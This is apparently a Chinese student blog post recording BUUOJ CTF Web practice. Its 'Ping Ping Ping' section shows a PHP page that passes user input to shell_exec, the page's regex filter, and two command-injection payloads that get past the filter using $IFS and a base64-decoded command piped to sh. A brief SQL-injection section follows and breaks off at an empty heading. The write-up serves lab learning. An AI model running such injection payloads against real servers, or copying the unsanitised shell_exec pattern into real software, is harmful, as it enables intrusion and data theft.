 ```yaml
---
title: BUUOJ 之 Web 刷题记
date: 2023-09-14 13:09:00
tags: [CTF, Web]
categories: 学习
---
```


这学期好像没什么课，就想着学一下 Web ，于是就去 BUUOJ 上刷题了。（copilot 挺懂我）

<!--more-->

## 前言

其实一开始学 CTF 的时候就想做 Web 了，但是当时密码手快毕业了，密码也简单好学，就先学密码了。
现在密码也学了个半桶水，得着手全栈了。

## 刷题

### Ping Ping Ping

题目给出一个 `?ip=`，显然是让我用 `GET` 方法传参，随便传个 `1` 返回的是 ping 的结果，看来是命令执行，我习惯性后面补个 `&&ls`，结果没反应，一看 wp 原来还能用分号的，`&&` 要上一条命令执行成功才会执行下一条，而 `;` 则是不管上一条命令是否成功都会执行下一条，所以这里用 `;` 就行了。

然后难点在于正则过滤

```php
/?ip=
<pre>PING 1 (0.0.0.1): 56 data bytes
/?ip=
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}

?>
```

这里过滤了空格和 flag，所以不能直接 `cat flag.php`，wp 的 payload 是

```bash
?ip=127.0.0.1;cat$IFS$1`ls`
```

`$IFS` 是空格，`$1` 是第一个参数，所以这里就是 `cat flag.php index.php`，然后就能看到 flag 了。注意这里的 `$1` 会带出 `ls` 的所有结果而不仅仅是 `flag.php`。所以 `cat` 出来的是目录下所有文件。

解法二是 `echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh`，这里的 `Y2F0IGZsYWcucGhw` 是 `cat flag.php` 的 base64 编码，`-d` 是解码，然后传到 `sh` 执行。注意到 `index.php` 只过滤了 `bash`，所以这里可以用 `sh`。

### 随便注

最头疼的就是这些注入了，没学过 sql 语句，也没学过数据库。

随便填个 1 提交后返回

```sql
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}
```

### EasySQL
